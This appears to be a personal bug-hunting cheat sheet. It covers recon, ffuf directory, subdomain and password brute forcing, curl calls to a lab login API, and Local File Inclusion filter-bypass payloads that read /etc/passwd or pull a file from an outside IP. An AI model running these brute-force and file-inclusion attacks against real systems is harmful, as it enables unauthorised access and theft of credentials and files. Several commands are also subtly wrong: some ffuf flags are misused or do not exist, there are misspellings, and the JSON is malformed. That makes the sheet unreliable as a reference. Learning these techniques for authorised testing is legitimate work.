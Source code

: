 # Bug-Hunting

# recon & footprinting
- https://buitlwith.com
- Wappalyzer plugin
- https://securityheaders.com
-     curl -I www.<raman>.com
- if you get hit with a redirection ex. Cloudflare
-     curl -I -L www.<raman>.com
you also can use nmap to gather information -A

# Directory Enumeration and Brute Forcing
Basic usage
-     ffuf -w wordlist.txt -u http://example.com/FUZZ
Add custom header
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -H "Authorization: Bearer <token>"
Use POST method
-     ffuf -w wordlist.txt -u http://example.com/api -X POST -d "param1=value1&param2=value2"
Finding subdomain
-     ffuf -u https://FUZZ.example.com -w wordlist.txt -mc 200,301,302,403
Follow redirects
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -r
Use a proxy
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -p http://127.0.0.1:8080
Exclude directories
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -exclude-dirs "admin,backup,test"
Use custom match string
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -c "Password incorrect"
Number of threads
-     ffuf -w wordlist.txt -u http://example.com/FUZZ -t 40
filter HTTP status
-     ffuf -w <Wordlist>:FUZZ -u http://10.10.10.16/FUZZ -fc 404,401
file extensions
-     ffuf -w <Wordlist>:FUZZ -u http://10.10.10.16/FUZZ -e .php
recursion
-     ffuf -w <Wordlist>:FUZZ -u http://10.10.10.16/FUZZ -recursion

# Authentication & Authorization Attacks
https://appsecexplained.gitbook.io/appsecexplained/
brute force password
-     ffuf -reqeust raman.txt -request-proto http -w wordlist.txt
Clusterbomb attack
- make sure to mention the following in the request file (in burp) "username=FUZZUSER&password=FUZZPASS"
-     ffuf -request raman.txt -request-proto http -mode clusterbomb -w wordlist.txt:FUZZUSER -w pass.txt:FUZZPASS -fs 3256,3376
- API Index
- POST /login.php
-     curl -X POST -H "Content-Type: application/json" -d '{username: "admin", password: "password123"}' http://localhost/labs/api/login.php
- Get /account.php
-     curl -X GET "http://localhost/labs/api/account.php?token=JWT"
- PUT /account.php
-     curl -X PUT -H "Content-Type: application/json" -d '{token: "JWT", username:"username", bio: "New bio information."}' http://localhost/labs/api/account.php

# Local File Inclusion
some filters bypass
-     ..././..././..././..././..././etc/passwd
-     hthttptp://10.10.16.2:8000/file.txt

